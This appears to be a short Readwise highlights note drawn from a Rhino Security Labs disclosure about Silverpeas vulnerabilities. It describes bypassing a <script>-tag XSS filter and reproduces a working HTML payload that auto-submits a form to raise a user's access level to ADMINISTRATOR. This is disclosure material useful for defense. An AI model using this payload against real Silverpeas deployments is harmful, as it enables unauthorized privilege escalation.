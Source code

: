 ```yaml
---
author: Rhino Security Labs
aliases:
  - "Silverpeas App: Multiple CVEs Leading to File Read on Server"
tags:
  - readwise/articles
url: https://rhinosecuritylabs.com/research/silverpeas-file-read-cves/
date: 2024-08-20
---
```

# Silverpeas App: Multiple CVEs Leading to File Read on Server

![rw-book-cover](https://rhinosecuritylabs.com/wp-content/uploads/2023/12/banner.png)

## Highlights


Silverpeas checks for Cross-Site Scripting by filtering out `<script>` tags in messages. This check can be bypassed by performing XSS without using `<script>` tags.
[View Highlight](https://read.readwise.io/read/01hhg2ej83d5css0fqfe237b27)



![](https://rhinosecuritylabs.com/wp-content/uploads/2023/12/Image2-500x218.png "Image2")
[View Highlight](https://read.readwise.io/read/01hhg2em9xqcy3c5fxa0yjpf84)



the following payload will successfully execute Javascript that elevates the adversary’s permissions: 
```html
 <html><body onload="document.forms[0].submit();"><form action="http://localhost:8080/silverpeas/RjobDomainPeas/jsp/userModify" method="GET"><input type="hidden" name="Iduser" value="[userID]" /><input type="hidden" name="userLastName" value="[userLastName]" /><input type="hidden" name="userAccessLevel" value="ADMINISTRATOR" /><input type="hidden" name="X-STKN" value="[userSTKNToken]" /></form></body></html>
```
[View Highlight](https://read.readwise.io/read/01hhg2gwf72y9821jrfd2rr0ha)

